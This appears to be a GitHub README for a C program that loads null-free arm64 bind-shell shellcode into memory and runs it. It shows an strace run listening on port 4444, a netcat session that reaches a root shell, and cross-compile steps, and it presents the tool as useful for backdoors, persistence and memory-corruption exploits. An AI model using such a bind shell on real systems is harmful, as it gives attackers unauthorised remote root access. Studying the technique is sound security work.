 # arm64_bind_shellcode
C program to map arm64 bind shell code into memory and execute code

Source code for mapping bind shell code into memory and executing the mapped shell code.
The arm64 code was tested on a Raspberry Pi running Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-1062-raspi2 aarch64).

## License

Please see the (LICENSE) file for the exact details.

## bind-shellcode-mapped 

## About

The C program bind-shellcode-mapped loads an array of arm-64 bind shell code and execute in memory mapped location.  After relocating the shell code this code is invoked as a C function. A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine.

This will demonstrate how to create a bind shell then move further to create the bind shell and map it into memory.  This program will accept incoming connection a execute a shell to the remote connection.

Now the shell code assembler source code has been modified to directly perform the system call by substituting the execve with the linux system call number.  Additionally, the null bytes have been removed from the code.  This will allow the shell code to be used to exploit memory corruption vulnerabilities.

This program can be ran as a shell or root user.

In the first terminal start the bind shell code mapped program

    On the Target run the bind-shellcode-mapped program
    Start the server as root on the target
    $ su
    passphrase
    # strace -e execve,socket,bind,listen,accept,dup2 ./bind-shellcode-mapped 
    execve("./bind-shellcode-mapped", ["./bind-shellcode-mapped"], 0xfffff57e5850 /* 19 vars */) = 0
    Shellcode Length: 164 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 2)                            = 0
    accept(3, NULL, NULL)                   = 4
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15079, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15080, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

In another terminal use netstat to identify the active ports on the target.   The program bind-shell can be seen running on port 4444.  Next start netcat to connect to port 4444.  If the connection succeeds user interaction will reveal a root shell (without prompt) as shown below.
       
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    
    $ netcat -nv 0.0.0.0 4444
    Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
    whoami 
    root
    id
    exit

## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.

// Broken AArch64 implementation of `push {x1}; push {x0};`.
str   x1, [sp, #-8]!  // This works, but leaves `sp` with only 8-byte alignment
str   x0, [sp, #-8]!  // ... so the second `str` will fail.

C compilers will typically reserve stack space at the start of the function, then leave sp alone until the end, so the restriction is not as awkward as it first seems. However, you must be aware of it when handling assembly code.

It sounds wasteful – and in most cases it is – but the simplest way to handle the stack pointer can be to push each value to a 16-byte slot. This doubles the stack usage (for pointer-sized values), and it effectively reduces the available memory bandwidth. It is also awkward to implement multiple-register operations using this scheme, since each register requires a separate instruction.

## Sources: sc_mapped

Credit to Ken Kitahara for the use of his source code.

https://packetstormsecurity.com/files/153461/Linux-ARM64-Bind-4444-TCP-Shell-bin-sh-Null-Free-Shellcode.html

Max Compston, Embedded Software Solutions.

## Building this Release

The source code for this program is built using CMake.  

The source code for the arm64 target are cross compiled using gnu arm64 compiler, below.  First in install the cross-compiler on the host.

$ sudo apt-get install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu

Next, set up the host to cross-compile arm64 creating a toolchain-aarch64-linux-gnu.cmake file in your home directory.  Add the following:

#- this one is important
SET(CMAKE_SYSTEM_NAME Linux)
SET(CMAKE_SYSTEM_PROCESSOR arm64)

#- specify the cross compiler
SET(CMAKE_C_COMPILER   /usr/bin/aarch64-linux-gnu-gcc)
SET(CMAKE_CXX_COMPILER /usr/bin/aarch64-linux-gnu-g++)

#- where is the target environment
SET(CMAKE_FIND_ROOT_PATH  /user/aarch64-linux-gnu)

#- search for programs in the build host directories
SET(CMAKE_FIND_ROOT_PATH_MODE_PROGRAM NEVER)

#- for libraries and headers in the target directories
SET(CMAKE_FIND_ROOT_PATH_MODE_LIBRARY ONLY)
SET(CMAKE_FIND_ROOT_PATH_MODE_INCLUDE ONLY)

To build the cross-compiled arm64 program navigate to the build directory and run cmake as follows:

$ cmake -DCMAKE_TOOLCHAIN_FILE=~/toolchain-aarch64-linux-gnu.cmake .. && make
